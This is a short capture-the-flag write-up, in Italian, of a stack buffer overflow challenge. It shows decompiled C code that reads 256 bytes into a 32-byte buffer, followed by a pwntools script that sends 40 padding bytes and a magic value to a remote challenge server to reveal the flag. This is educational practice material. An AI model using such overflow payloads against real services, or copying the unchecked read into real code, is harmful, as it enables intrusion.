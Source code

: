 # Enterprise encryption

```c
  local_20 = 0;
  puts("Hello, what\'s your name?");
  sVar1 = read(0,local_48,256);
  local_48[(int)sVar1 + -1] = '\0';
  printf("Hello %s, ",local_48);
  if (local_20 == 0x5ab1bb0) {
    param1 = getenv("FLAG");
    printf("the flag is %s\n",param1);
  }
  else {
    puts("no flag for you >:(\n");
  }
```

devi cambiare il valore della variabile local_20 facendo buffer overflow, `char local_48 [32]` siccome c'è un buffer di 32 byte e in read c'è un buffer di 256, quindi con questo, cerco di calcolare quante A servono per fare buffer overflow provando

```py
from pwn import *

p = remote('lil-overflow.challs.olicyber.it', 34002)

payload = b''
payload += b'A'*40
#payload += p32(95099824)
payload += p64(0x5ab1bb0)


p.sendline(payload)
p.stream()
```

flag{}


references : https://ctftime.org/writeup/27928
https://0xrick.github.io/binary-exploitation/bof2/
